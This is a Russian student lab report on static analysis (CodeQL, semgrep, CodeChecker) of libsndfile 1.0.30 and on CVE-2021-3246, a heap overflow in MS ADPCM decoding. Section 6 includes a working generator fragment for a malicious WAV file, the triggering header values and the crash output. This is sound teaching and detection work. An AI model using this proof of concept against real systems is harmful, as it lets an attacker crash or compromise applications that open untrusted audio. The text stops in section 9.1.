






Министерство науки и высшего образования Российской Федерации

Санкт-Петербургский политехнический университет Петра Великого

Институт компьютерных наук и кибербезопасности

Высшая школа кибербезопасности

# ОТЧЁТ ПО ЛАБОРАТОРНОЙ РАБОТЕ № 4

## «Использование средств статического анализа кода для оценки безопасности приложений»

по дисциплине «Модели безопасности компьютерных систем»

| | |
|---|---|
| Выполнил | студент гр. 5131001/30501 Чупров Е. А. |
| Проверил | ассистент Жуковский Е. В. |

Санкт-Петербург

2026

---

## Содержание

1. Цель работы
2. Формулировка задания и выбранный вариант
3. Выбранные типы ошибок (CWE) и правила CodeQL
4. Описание исследуемого ПО
5. Исследуемая уязвимость CVE-2021-3246
6. Proof of Concept
7. Уязвимый код и код исправления
8. Штатные правила semgrep: формат и принципы работы
9. Штатные правила CodeChecker: формат и принципы работы
10. Результаты анализа средством CodeQL
11. Результаты анализа средством semgrep
12. Результаты анализа средством CodeChecker
13. Разработанные правила обнаружения уязвимости
14. Выводы
15. Список источников

Приложение А. Структура работы и команды воспроизведения

Приложение Б. Полный текст генератора PoC

Приложение В. Полный текст checker'а для CodeChecker

---

## 1. Цель работы

Изучение распространённых типов уязвимостей и средств их выявления на основе статического анализа исходного кода (SAST, Static Application Security Testing).

В ходе работы требуется выбрать открытое ПО на языке варианта, изучить пять типов ошибок (CWE) и правила CodeQL, провести анализ ПО тремя средствами (CodeQL, semgrep, третье средство по варианту), исследовать конкретную CVE, написать PoC, показать уязвимый код и исправление, а также разработать собственные правила обнаружения этой уязвимости для всех трёх средств.

## 2. Формулировка задания и выбранный вариант

Вариант 3 по таблице 1 задания:

| Параметр | Значение |
|---|---|
| Язык программирования | C/C++ |
| Третье средство анализа | CodeChecker |
| Исследуемое ПО | libsndfile 1.0.30 |
| Исследуемая уязвимость | CVE-2021-3246 |

Задание выполнено в следующем объёме:

1. Выбраны пять CWE, критичных для C-кода, разбирающего недоверенные файлы: CWE-120, CWE-190, CWE-129, CWE-457, CWE-468.
2. Изучены соответствующие штатные запросы CodeQL из пакета `codeql/cpp-queries` и примеры уязвимого кода.
3. Проведён анализ libsndfile 1.0.30 средством CodeQL, результаты прокомментированы, часть срабатываний отмечена как ложные.
4. Исследована CVE-2021-3246: причина, условия эксплуатации, PoC, уязвимый код и код исправления.
5. Разработано правило CodeQL, выявляющее уязвимость в 1.0.30.
6. Проведён анализ средством semgrep штатными наборами и разработано своё правило.
7. Проведён анализ средством CodeChecker штатным набором и разработано своё правило (checker для clang-tidy, загружаемый в CodeChecker).
8. Подготовлен отчёт с результатами, текстами правил и командами воспроизведения.

## 3. Выбранные типы ошибок (CWE) и правила CodeQL

Для C-библиотеки, которая разбирает файлы форматов WAV, AIFF, AU, FLAC, OGG и другие, наиболее опасны ошибки работы с памятью и целочисленной арифметикой на данных из файла. Выбраны пять типов:

| CWE | Класс ошибки | Запрос CodeQL | Важность / точность | Найдено в 1.0.30 |
|---|---|---|---|---|
| CWE-120 | Переполнение буфера при записи | `cpp/unbounded-write` | error, medium | 0 |
| CWE-190 | Целочисленное переполнение | `cpp/integer-overflow-tainted` | warning, low | 290 |
| CWE-129 | Непроверенный индекс массива | `cpp/unclear-array-index-validation` | warning, low | 8 |
| CWE-457 | Условно неинициализированная переменная | `cpp/conditionally-uninitialized-variable` | warning | 2 |
| CWE-468 | Неверное масштабирование указателя | `cpp/suspicious-add-sizeof` | warning, high | 1 |

Все запросы входят в пакет `codeql/cpp-queries` версии 1.9.2, каталог `Security/CWE`. Набор выбран с учётом состава пакета: отдельных штатных запросов CWE-476 (разыменование NULL) и CWE-125 (чтение за границей) в C++-пакете нет, поэтому вместо них взяты CWE-457 и CWE-468 — также приводящие к порче памяти и неопределённому поведению. Ниже кратко описаны принципы работы запросов и результаты.

### 3.1. CWE-120: переполнение буфера при записи

Запрос `cpp/unbounded-write` — path-problem. Он ищет операции записи в буфер, длина которых не контролируется, и строит путь от источника недоверенных данных до sink'а. В основе лежит библиотека `semmle.code.cpp.security.BufferWrite` и taint-анализ: источник — данные, прочитанные из файла или командной строки, sink — копирование в буфер (`strcpy`, `memcpy`, `sprintf` и т. п.). Запрос проверяет, ограничена ли длина записи размером приёмника, и не считает срабатыванием случаи, где размер явно проверен.

На libsndfile 1.0.30 запрос не дал ни одного срабатывания. Это ожидаемо: библиотека почти везде передаёт длину явно и проверяет её вручную, а исследованная CVE-2021-3246 — не прямое неограниченное копирование, а логическая ошибка согласования двух размеров (`blockalign` и `samplesperblock`). Такой дефект не описывается моделью «недоверенная длина → запись» и требует отдельного правила. Этот результат показывает границу применимости штатного запроса и обосновывает разработку собственного правила.

### 3.2. CWE-190: целочисленное переполнение

Запрос `cpp/integer-overflow-tainted` ищет арифметические выражения над недоверенными данными, которые могут переполниться. Используется taint-анализ от `FlowSources` (чтение из файла, аргументы командной строки) и `SimpleRangeAnalysis` для оценки диапазонов. Запрос имеет низкую точность: он сообщает о любом потенциально переполняющемся выражении, даже если результат затем маскируется или приводится к меньшему типу.

Получено 290 срабатываний. Больше всего:

| Файл | Срабатываний |
|---|---|
| `src/GSM610/gsm_decode.c` | 153 |
| `src/sfendian.h` | 23 |
| `src/nms_adpcm.c` | 17 |
| `src/sd2.c` | 14 |
| `src/ms_adpcm.c` | 13 |
| `src/double64.c` | 12 |

Пример — `src/GSM610/gsm_decode.c`:

```c
sr |= (uint16_t) *c++ << 2 ;
xmc [3] = sr & 0x7 ; sr >>= 3 ;
```

Здесь `sr` — 16-битный регистр, сдвиги и маски являются частью распаковки битового потока; переполнение если и возможно, то является ожидаемым усечением. Большинство из 290 срабатываний относятся к таким местам и помечены как ложные. Несколько срабатываний в `ALACBitUtilities.c` и `double64.c` требуют ручной проверки, но прямого отношения к исследуемой CVE не имеют. Вывод: штатный запрос CWE-190 для этой библиотеки слишком шумный; для практического использования его нужно сужать до мест выделения памяти и индексации, как это сделано в собственном правиле для CVE.

### 3.3. CWE-129: непроверенный индекс массива

Запрос `cpp/unclear-array-index-validation` — path-problem. Он ищет доступ к массиву по индексу, полученному из недоверенных данных, без предварительной проверки границ. Используются `IRGuards` (анализ условий-охранников) и taint-анализ. Точность низкая.

Найдено 8 срабатываний, в том числе:

| Файл:строка | Комментарий |
|---|---|
| `src/GSM610/long_term.c:914` | индекс зависит от прочитанных данных; требует проверки |
| `src/ima_adpcm.c:468` | индекс из блока ADPCM; требует проверки |
| `src/ima_oki_adpcm.c:77`, `:86` | аналогично |
| `src/ms_adpcm.c:292` | ложное: `bytecode` предварительно ограничен `& 0xF` |
| `src/sd2.c:317`, `:325`, `:333` | индексы из заголовка; требует проверки |

Пример ложного срабатывания в `src/ms_adpcm.c`:

```c
bytecode = pms->samples [k] & 0xF ;
...
chan_idelta [chan] = (AdaptationTable [bytecode] * idelta) >> 8 ;
```

`AdaptationTable` содержит 16 элементов, а `bytecode` после `& 0xF` находится в диапазоне 0…15, поэтому выхода за границу нет. CodeQL не выводит эту связь из маски и считает индекс недоверенным.

### 3.4. CWE-457: условно неинициализированная переменная

Запрос `cpp/conditionally-uninitialized-variable` ищет функции инициализации, статус возврата которых не проверяется, из-за чего локальная переменная может остаться неинициализированной. Используется SSA-анализ и список функций, которые инициализируют выходной параметр только при успехе.

Найдено 2 срабатывания:

| Файл:строка | Комментарий |
|---|---|
| `programs/common.c:57` | статус `sf_command` не проверен, `max` может остаться неинициализированным |
| `programs/sndfile-info.c:256` | то же для `signal_max` |

Оба срабатывания — истинные, но находятся в консольных программах, а не в самой библиотеке. Практический эффект — неверный вывод или неопределённое поведение при ошибке `sf_command`, не память библиотеки.

### 3.5. CWE-468: неверное масштабирование указателя

Запрос `cpp/suspicious-add-sizeof` ищет выражения вида `ptr + sizeof(...)`, где `ptr` не является `char *` или `void *`. В таком выражении смещение масштабируется размером элемента указателя, то есть фактически применяется дважды. Точность высокая.

Найдено одно срабатывание — `src/nms_adpcm.c:707`:

```c
unsigned short block [NMS_BLOCK_SHORTS_32] ;
...
memset (pnms->block + (k * sizeof (short)), 0,
        (pnms->shortsperblock - k) * sizeof (short)) ;
```

`pnms->block` имеет тип `unsigned short *`, поэтому `pnms->block + k * sizeof(short)` смещает указатель на `k * sizeof(short) * sizeof(short)` байт, а не на `k * sizeof(short)`. Это истинное срабатывание: при определённых `k` `memset` выйдет за пределы массива `block`. Ошибка не является исследуемой CVE, но показывает, что штатный набор CodeQL находит в libsndfile и другие реальные дефекты.

## 4. Описание исследуемого ПО

**libsndfile** — библиотека с открытым исходным кодом для чтения и записи звуковых файлов. Поддерживает WAV, AIFF, AU, RAW, FLAC, OGG/Vorbis, OGG/Opus, GSM 6.10, G.721/G.723, MS ADPCM, IMA ADPCM, NMS ADPCM и другие форматы. Библиотека используется в аудиоредакторах, плеерах, утилитах обработки звука и встроенных системах; типичный сценарий — открытие файла, полученного из недоверенного источника.

| Параметр | Значение |
|---|---|
| Версия | 1.0.30 (тег `v1.0.30`, 2021) |
| Язык | C |
| Объём | 104 файла `.c`, около 47 тыс. строк в `src/` |
| Сборка | autotools, `--disable-external-libs --disable-shared --enable-static` |
| Компилятор | clang 23.1.3, `-std=gnu11` |
| Утилита для PoC | `programs/sndfile-info` |

Версия 1.0.30 выбрана потому, что в ней присутствует CVE-2021-3246, а сборка занимает около минуты и не требует внешних библиотек. Для сравнения собрана исправленная версия 1.1.0.

Основные команды сборки:

```sh
git clone --depth 1 --branch v1.0.30 https://github.com/libsndfile/libsndfile.git
cd libsndfile
autoreconf -i -f
mkdir build && cd build
CC=clang CFLAGS="-std=gnu11 -g -O1" ../configure \
  --disable-external-libs --disable-shared --enable-static
make -j8 programs/sndfile-info
```

Для PoC дополнительно собирается вариант с AddressSanitizer:

```sh
CC=clang CFLAGS="-std=gnu11 -fsanitize=address -g -O1" \
LDFLAGS="-fsanitize=address" ../configure \
  --disable-external-libs --disable-shared --enable-static
make -j8 programs/sndfile-info
```



## 5. Исследуемая уязвимость CVE-2021-3246

| Параметр | Значение |
|---|---|
| CVE | CVE-2021-3246 |
| Тип ошибки | CWE-787 (out-of-bounds write), CWE-122 (heap-based buffer overflow) |
| CVSS 3.1 | 8.8 High (`AV:N/AC:L/PR:N/UI:R/S:U/C:H/I:H/A:H`) |
| Уязвимая версия | 1.0.30; по коду старая проверка есть и в 1.0.31 |
| Исправленная версия | 1.1.0 (коммит `deb669ee`, 18.02.2021; релиз 27.03.2022) |
| Функции | `wavlike_msadpcm_init`, `msadpcm_decode_block` в `src/ms_adpcm.c` |
| PoC | WAV-файл 2660 байт, генератор в Приложении Б |

Описание: при открытии специально сформированного WAV-файла с кодеком MS ADPCM в `msadpcm_decode_block` происходит запись за границу кучи. Уязвимость позволяет вызвать отказ в обслуживании и, в зависимости от окружения, выполнить произвольный код. Атака требует, чтобы пользователь открыл вредоносный файл (UI:R), но не требует привилегий (PR:N).

Условия эксплуатации:

1. Приложение использует libsndfile 1.0.30 (или 1.0.31) для чтения WAV.
2. Файл имеет формат `WAVE_FORMAT_EXTENSIBLE` с подформатом MS ADPCM.
3. В заголовке заданы несовместимые `nBlockAlign`, `wValidBitsPerSample` и число каналов.
4. Приложение вызывает `sf_open` (например, `sndfile-info`) и доходит до инициализации кодека.

### 5.1. Причина возникновения

В `wavlike_msadpcm_init` параметры `blockalign` и `samplesperblock` приходят из заголовка WAV. Для обычного `WAVE_FORMAT_MS_ADPCM` в `wavlike_read_fmt_chunk` есть проверка числа каналов (`1…2`), но для `WAVE_FORMAT_EXTENSIBLE` эта ветка не выполняется, и число каналов не ограничивается.

Кроме того, в объединении `WAV_FMT` поля структуры `msadpcm` пересекаются с полями структуры `ext`:

```c
typedef struct
{   unsigned short format ;
    unsigned short channels ;
    unsigned int   samplerate ;
    unsigned int   bytespersec ;
    unsigned short blockalign ;
    unsigned short bitwidth ;
    unsigned short extrabytes ;
    unsigned short samplesperblock ;
} MS_ADPCM_WAV_FMT ;

typedef struct
{   unsigned short format ;
    unsigned short channels ;
    unsigned int   samplerate ;
    unsigned int   bytespersec ;
    unsigned short blockalign ;
    unsigned short bitwidth ;
    unsigned short extrabytes ;
    unsigned short validbits ;
    unsigned int   channelmask ;
    EXT_SUBFORMAT  esf ;
} EXTENSIBLE_WAV_FMT ;
```

Поэтому для extensible-файла `wav_fmt->msadpcm.samplesperblock` фактически читает `wValidBitsPerSample`. В `wav_read_header` это значение передаётся в `wavlike_msadpcm_init` как `samplesperblock`.

Старая проверка в 1.0.30 проверяет только `blockalign`:

```c
if (blockalign < 7 * psf->sf.channels)
{   psf_log_printf (psf, "*** Error blockalign (%d) should be > %d.\n", blockalign, 7 * psf->sf.channels) ;
    return SFE_INTERNAL ;
    } ;
```

Далее вычисляется `count` и проверяется равенство `samplesperblock`:

```c
count = 2 * (pms->blocksize - 6 * pms->channels) / pms->channels ;
if (pms->samplesperblock != count)
    return SFE_INTERNAL ;
```

В PoC значения таковы, что целочисленное деление даёт `count = 10`, и проверка проходит:

```text
channels = 226
blockalign = 2592
samplesperblock = 10
count = 2 * (2592 - 6 * 226) / 226 = 2472 / 226 = 10
```

При этом `msadpcm_decode_block` для любого числа каналов, кроме одного, использует ветку, рассчитанную на два канала: пишет 4 сэмпла заголовка, ставит `blockindx = 14` и затем распаковывает по два сэмпла на каждый байт до `blockalign`. Итого записывается

```text
4 + 2 * (2592 - 14) = 5160 сэмплов,
```

а под сэмплы выделено

```text
channels * samplesperblock = 226 * 10 = 2260 сэмплов.
```

Разница 2900 сэмплов (5800 байт) и даёт переполнение кучи.

### 5.2. Исправление

В 1.1.0 проверка `blockalign < 7 * channels` заменена на две проверки:

```c
/* There's 7 samples per channel in the preamble of each block */
if (samplesperblock < 7 * psf->sf.channels)
{   psf_log_printf (psf, "*** Error samplesperblock (%d) should be >= %d.\n",
                   samplesperblock, 7 * psf->sf.channels) ;
    return SFE_INTERNAL ;
    } ;

if (2 * blockalign < samplesperblock * psf->sf.channels)
{   psf_log_printf (psf, "*** Error blockalign (%d) should be >= %d.\n",
                   blockalign, samplesperblock * psf->sf.channels / 2) ;
    return SFE_INTERNAL ;
    } ;
```

Первая проверка требует, чтобы в блоке было достаточно места для преамбулы (7 сэмплов на канал), вторая — чтобы блок был достаточно большим для заявленного числа сэмплов. Для PoC первая проверка даёт `10 < 7 * 226 = 1582` и отклоняет файл.

### 5.3. Ссылки

- NVD: <https://nvd.nist.gov/vuln/detail/CVE-2021-3246>
- Описание в MITRE CVE: <https://cveawg.mitre.org/api/cve/CVE-2021-3246>
- Issue libsndfile: <https://github.com/libsndfile/libsndfile/issues/687>
- Коммит исправления: <https://github.com/libsndfile/libsndfile/commit/deb669ee8be55a94565f6f8a6b60890c2e7c6f32>
- Релиз 1.1.0: <https://github.com/libsndfile/libsndfile/releases/tag/1.1.0>
- OSS-Fuzz testcase: <https://oss-fuzz.com/testcase-detail/5696502087024640>
- Debian DSA-4947: <https://www.debian.org/security/2021/dsa-4947>
- Gentoo GLSA 202309-11: <https://security.gentoo.org/glsa/202309-11>

## 6. Proof of Concept

PoC — WAV-файл, который создаётся скриптом `poc/gen_msadpcm_poc.py`. Файл содержит корректную RIFF-структуру, `fmt `-чанк размера 40 (`WAVE_FORMAT_EXTENSIBLE`) и `data`-чанк на 2592 байта. Ключевые параметры:

| Поле | Значение | Комментарий |
|---|---|---|
| `wFormatTag` | `0xFFFE` | `WAVE_FORMAT_EXTENSIBLE` |
| SubFormat GUID | `00000002-0000-0010-8000-00AA00389B71` | MS ADPCM |
| `nChannels` | 226 | проверка каналов для extensible не выполняется |
| `nBlockAlign` | 2592 | проходит старую проверку `>= 7 * 226` |
| `wValidBitsPerSample` | 10 | читается как `samplesperblock` |
| Размер `data` | 2592 | ровно один блок |
| Размер файла | 2660 | |

Фрагмент генератора:

```python
channels = 226
blockalign = 2592
samplesperblock = 10

fmt = struct.pack("<HHIIHH", 0xFFFE, channels, 8000,
                  8000 * blockalign, blockalign, 4)
extension = struct.pack("<HI", samplesperblock, 0) + MS_ADPCM_GUID
fmt += struct.pack("<H", len(extension)) + extension
data = bytes(blockalign)

body = (b"WAVE" + b"fmt " + struct.pack("<I", len(fmt)) + fmt
        + b"data" + struct.pack("<I", len(data)) + data)
blob = b"RIFF" + struct.pack("<I", len(body)) + body
```

Запуск на уязвимой версии с AddressSanitizer:

```sh
python3 poc/gen_msadpcm_poc.py
ASAN_OPTIONS=detect_leaks=0 \
  work/build/asan-1.0.30/programs/sndfile-info poc/msadpcm_poc.wav
```

Фрагмент вывода:

```text
==<pid>==ERROR: AddressSanitizer: heap-buffer-overflow on address ...
WRITE of size 2 at 0x... thread T0
    #0 ... in msadpcm_decode_block .../src/ms_adpcm.c:279
    #1 ... in wavlike_msadpcm_init .../src/ms_adpcm.c:171
    #2 ... in wav_open .../src/wav.c:258
    #3 ... in psf_open_file .../src/sndfile.c:3079
    #4 ... in info_dump .../programs/sndfile-info.c:226
...
SUMMARY: AddressSanitizer: heap-buffer-overflow .../src/ms_adpcm.c:279
in msadpcm_decode_block
```

На исправленной версии 1.1.0 тот же файл отклоняется без падения:

```text
Error : Not able to open input file poc/msadpcm_poc.wav.
  Channels      : 226
  Block Align   : 2592
*** Error samplesperblock (10) should be >= 1582.
```



Оригинальный тесткейс OSS-Fuzz имеет размер 71 байт и также воспроизводит падение; в работе используется эквивалентный ему чистый файл, который проще объяснить и воспроизвести: генератор явно задаёт все поля WAV.

## 7. Уязвимый код и код исправления

### 7.1. Уязвимый код 1.0.30

`src/ms_adpcm.c`, `wavlike_msadpcm_init`:

```c
if (blockalign < 7 * psf->sf.channels)
{   psf_log_printf (psf, "*** Error blockalign (%d) should be > %d.\n",
                    blockalign, 7 * psf->sf.channels) ;
    return SFE_INTERNAL ;
    } ;

pmssize = sizeof (MSADPCM_PRIVATE) + blockalign
        + 3 * psf->sf.channels * samplesperblock ;

if (! (psf->codec_data = calloc (1, pmssize)))
    return SFE_MALLOC_FAILED ;
pms = (MSADPCM_PRIVATE*) psf->codec_data ;

pms->samples = pms->dummydata ;
pms->block = (unsigned char*) (pms->dummydata
            + psf->sf.channels * samplesperblock) ;
pms->channels = psf->sf.channels ;
pms->blocksize = blockalign ;
pms->samplesperblock = samplesperblock ;
```

`src/ms_adpcm.c`, `msadpcm_decode_block`:

```c
sampleindx = 2 * pms->channels ;
while (blockindx < pms->blocksize)
{   bytecode = pms->block [blockindx++] ;
    pms->samples [sampleindx++] = (bytecode >> 4) & 0x0F ;
    pms->samples [sampleindx++] = bytecode & 0x0F ;
    } ;
```

Проблема: проверка `blockalign` не гарантирует, что `samplesperblock` достаточен для распаковки блока; для `channels > 2` ветка преамбулы рассчитана на два канала, а размер буфера считается как `channels * samplesperblock`.

### 7.2. Код исправления 1.1.0

```c
/* There's 7 samples per channel in the preamble of each block */
if (samplesperblock < 7 * psf->sf.channels)
{   psf_log_printf (psf, "*** Error samplesperblock (%d) should be >= %d.\n",
                    samplesperblock, 7 * psf->sf.channels) ;
    return SFE_INTERNAL ;
    } ;

if (2 * blockalign < samplesperblock * psf->sf.channels)
{   psf_log_printf (psf, "*** Error blockalign (%d) should be >= %d.\n",
                    blockalign, samplesperblock * psf->sf.channels / 2) ;
    return SFE_INTERNAL ;
    } ;
```

Обе проверки выполняются до `calloc`, поэтому неверный файл не доходит до `msadpcm_decode_block`. Именно на эти проверки ориентированы собственные правила: они ищут старую (слабую) проверку `blockalign` в `wavlike_msadpcm_init`, которой в 1.1.0 уже нет.

## 8. Штатные правила semgrep: формат и принципы работы

semgrep — анализатор на основе шаблонов исходного кода. Правило описывается в YAML и состоит из идентификатора, языков, важности, сообщения и одного или нескольких шаблонов. Основные элементы:

- `pattern` — синтаксический шаблон с метапеременными `$X` и многоточием `...`;
- `pattern-inside` — шаблон должен находиться внутри указанной конструкции (например, внутри функции);
- `pattern-not` / `pattern-not-inside` — исключения;
- `metavariable-pattern`, `metavariable-comparison` — дополнительные условия на метапеременные;
- режим `mode: taint` с секциями `sources`, `sinks`, `sanitizers` — упрощённый анализ распространения данных;
- `metadata` — CWE, ссылки, категория.

Правила можно писать самому или брать из реестра semgrep.dev; `--config=p/…` означает «пакет правил из реестра». В работе использованы три набора:

| Набор | Назначение | Правил | Файлов | Находок |
|---|---|---|---|---|
| `p/c` | штатный набор правил для C | 2 | 130 | 0 |
| `p/default` | общий набор по умолчанию | 336 | 144 | 0 |
| `p/security-audit` | правила security-аудита | 88 | 144 | 7 |

Штатный C-набор semgrep оказался очень небольшим: всего два правила, и на libsndfile они не сработали. Для содержательного анализа дополнительно прогнан `p/security-audit`; его результаты приведены ниже.

### 8.1. Результаты `p/security-audit`

| Правило | Файл:строка | Комментарий |
|---|---|---|
| `insecure-use-printf-fn` | `src/G72x/g72x_test.c:78` | тестовый файл, не входит в библиотеку; низкий приоритет |
| `double-free` | `src/alac.c:871` | требует проверки; на success-пути `pakt_data` освобождается один раз |
| `double-free` | `src/test_conversions.c:88` | тестовый файл |
| `use-after-free` | `src/wavlike.c:332` | ложное: после `free` указатель сразу переприсваивается `calloc` |
| `use-after-free` | `src/wavlike.c:346` | то же ложное срабатывание |
| `insecure-use-strcat-fn` | `src/common.h:991` | макрос-обёртка; предупреждение общего характера |
| `insecure-use-string-copy-fn` | `src/common.h:997` | макрос-обёртка; предупреждение общего характера |

Пример ложного срабатывания `use-after-free`:

```c
free (psf->channel_map) ;
if ((psf->channel_map = calloc (psf->sf.channels,
                                sizeof (psf->channel_map [0]))) == NULL)
    return SFE_MALLOC_FAILED ;
...
psf->channel_map [k++] = channel_mask_bits [bit].id ;
```

semgrep видит `free` и последующее обращение к `psf->channel_map`, но не учитывает, что между ними указатель получает новое значение. Это типичное ограничение шаблонного анализа без полноценного анализа потока управления.



## 9. Штатные правила CodeChecker: формат и принципы работы

CodeChecker — оболочка и инфраструктура для статических анализаторов Clang. Он не имеет собственного DSL правил: «правила» — это checker'ы двух анализаторов:

1. **Clang Static Analyzer** (`clangsa`) — символьное исполнение, исследование путей, межпроцедурный анализ в пределах единицы трансляции. Примеры checker'ов: `core.DivideZero`, `core.NullDereference`, `core.uninitialized.*`, `security.ArrayBound`, `unix.Malloc`.
2. **clang-tidy** — анализ AST по шаблонам (matcher'ы), проверки `bugprone-*`, `cert-*`, `readability-*`, `clang-diagnostic-*`.

Процесс работы CodeChecker:

1. `CodeChecker log` перехватывает вызовы компилятора и создаёт `compile_commands.json` — базу компиляции.
2. `CodeChecker analyze` запускает выбранные анализаторы для каждой единицы трансляции и складывает отчёты в plist.
3. `CodeChecker parse` печатает отчёты в терминал; `CodeChecker store` сохраняет их в сервер для веб-интерфейса.

Каждый checker имеет метки: `severity:HIGH/MEDIUM/LOW`, `profile:default/security/extreme`, `guideline:sei-cert-c` и другие. Отчёты идентифицируются хешем, поддерживается подавление через комментарии `// codechecker_suppress [...]` и файл подавлений. Штатный набор — это профиль `default`; в него входят clangsa-проверки по умолчанию и набор clang-tidy, который CodeChecker считает включённым.

Анализ выполнялся по базе компиляции, созданной из сборки 1.0.30:

```sh
cd work/build/normal-1.0.30
CC=../../venvs/codechecker/bin/CodeChecker
$CC log -o ../../compile_commands-1.0.30.json \
  -b "make -j8 programs/sndfile-info"
$CC analyze ../../compile_commands-1.0.30.json \
  -o ../../../results/codechecker-builtin-1.0.30 \
  --analyzers clangsa clang-tidy -j 4
$CC parse ../../../results/codechecker-builtin-1.0.30 \
  > ../../../results/codechecker-builtin-1.0.30.txt
```

### 9.1. Результаты штатного набора

Всего получено **329 отчётов** по 92 единицам трансляции. Распределение по checker'ам:

| Checker | Важность | Отчётов |
|---|---|---|
| `clang-diagnostic-double-promotion` | MEDIUM | 83 |
| `cert-err33-c` | MEDIUM | 67 |
| `deadcode.DeadStores` | LOW | 51 |
| `clang-diagnostic-float-conversion` | MEDIUM | 24 |
| `bugprone-switch-missing-default-case` | LOW | 24 |
| `clang-diagnostic-reserved-macro-identifier` | MEDIUM | 21 |
| `readability-suspicious-call-argument` | LOW | 15 |
| `clang-diagnostic-unused-but-set-variable` | MEDIUM | 2 |
| `clang-diagnostic-reserved-identifier` | MEDIUM | 12 |
| `security.ArrayBound` | HIGH | 8 |
| `core.UndefinedBinaryOperatorResult` | HIGH | 7 |
